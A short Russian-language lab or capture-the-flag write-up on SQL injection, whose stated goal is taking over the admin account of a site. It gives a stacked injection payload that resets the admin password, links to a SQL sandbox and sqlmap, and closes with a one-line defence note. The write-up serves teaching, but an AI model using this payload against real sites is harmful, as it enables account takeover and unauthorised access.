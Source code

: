 # День четвертый (SQL Injection)
-- -
### Цель атаки: 
Получить доступ к пользователю admin на сайте 

### Решение:

Отправив `"` обнаруживаем наличие SQL Injection уязвимости. Далее для нас достаточно подменить пароль к пользователю
admin и зайти с измененным паролем.

### Итоговый эксплоит:
```sql
');
UPDATE users SET password = 'kek' WHERE user = 'admin';
INSERT INTO users VALUES ('lol
```

### Инструменты и полезные ссылки
- Песочница, где можно потестить SQL запросы https://sql-academy.org/ru/sandbox
- Универсальная утилита для поиска SQL Injection https://sqlmap.org/

### Способ защиты
- Экранировать весь пользовательский ввод на сервере через специальные общеиспользуемые форматеры.
